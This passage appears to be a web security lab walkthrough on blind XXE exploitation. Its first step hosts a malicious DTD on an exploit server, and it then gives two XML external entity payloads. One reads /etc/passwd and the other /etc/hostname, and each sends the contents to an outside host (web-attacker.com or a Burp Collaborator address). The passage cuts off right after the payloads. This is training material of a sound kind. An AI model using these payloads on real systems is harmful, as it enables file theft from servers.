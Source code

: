 <img src="images/image27.png" alt="third" width="500">

**Step1:**

Go to exploit server and make file /exploit.dtd

In this file add payload
```
<!ENTITY % file SYSTEM "[file:///etc/passwd](file://etc/passwd)"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '[http://web-attacker.com/?x=%file;](http://web-attacker.com/?x=%25file;)'>"> %eval; %exfiltrate;
```

Instead of [http://web-attacker.com](http://web-attacker.com) use burp collaborator id

```
<!ENTITY % file SYSTEM "[file:///etc/hostname](file://etc/hostname)"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '[http://ua8mmueyoi6rsymbi4601c453w9nxil7.oastify.com/?x=%file;](http://ua8mmueyoi6rsymbi4601c453w9nxil7.oastify.com/?x=%25file;)'>"> %eval; %exfiltrate;
```

We have
